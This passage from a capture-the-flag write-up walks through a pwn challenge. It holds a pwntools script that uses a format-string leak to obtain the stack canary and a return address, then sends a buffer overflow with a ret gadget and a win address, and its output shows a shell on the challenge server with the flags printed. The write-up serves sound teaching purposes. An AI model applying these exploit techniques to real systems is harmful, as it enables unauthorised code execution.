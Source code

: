 ```
 RIP  0x55c130413d64 (AAAAAAAA+101) ◂— xor    rax, qword ptr fs:[0x28]
─────────────────────────────────────────[ DISASM ]──────────────────────────────────────────
 ► 0x55c130413d64 <AAAAAAAA+101>    xor    rax, qword ptr fs:[0x28]
   0x55c130413d6d <AAAAAAAA+110>    je     AAAAAAAA+141 <0x55c130413d8c>
    ↓
   0x55c130413d8c <AAAAAAAA+141>    leave  
   0x55c130413d8d <AAAAAAAA+142>    ret    
```
We overwrote the cookie with `0x61616f6361616e63` (`cnaa`) so we can ajust the
script to place the cookie, the address of the return instruction and the address
of win there.

```python
...
win = leak_addr - 0x231 # calculate the address of WINgardium_leviosa

input()

p.sendline(b"Expelliarmus\0" + b"A" * cyclic_find(b"cnaa") + p64(cookie) +
           p64(ret) + p64(win))

p.interactive()
...
```

But this works only locally agin. Which is again a sign for a not aligned stack
and after adding a new ret to the cain, it can also exploit the server.


```
[+] Opening connection to hax1.allesctf.net on port 9101: Done
[*] Switching to interactive mode
~ Protego!
┌───────────────────────┐
│ You are a Slytherin.. │
└───────────────────────┘
$ cat flag
CSCG{NOW_GET_VOLDEMORT}
```
```python
from pwn import *

p = remote("hax1.allesctf.net",9101)


p.readline()
p.sendline("CSCG{NOW_PRACTICE_MORE}") # Format string exploit
p.readline()

p.sendline("|".join(["%p"]*70)) # Format string exploit

p.readline() # reading the Hufflepuff banner
p.readline()
p.readline()
p.readline()

leaks = p.readline().decode("utf-8").split("|") # read the leaked values

cookie =    int(leaks[38],16) # get the stack cookie
leak_addr = int(leaks[40],16) # get the leaked return address

ret = leak_addr - 0x38 # calculate the address of an ret instruction

win = leak_addr - 0x231 # calculate the address of WINgardium_leviosa


```
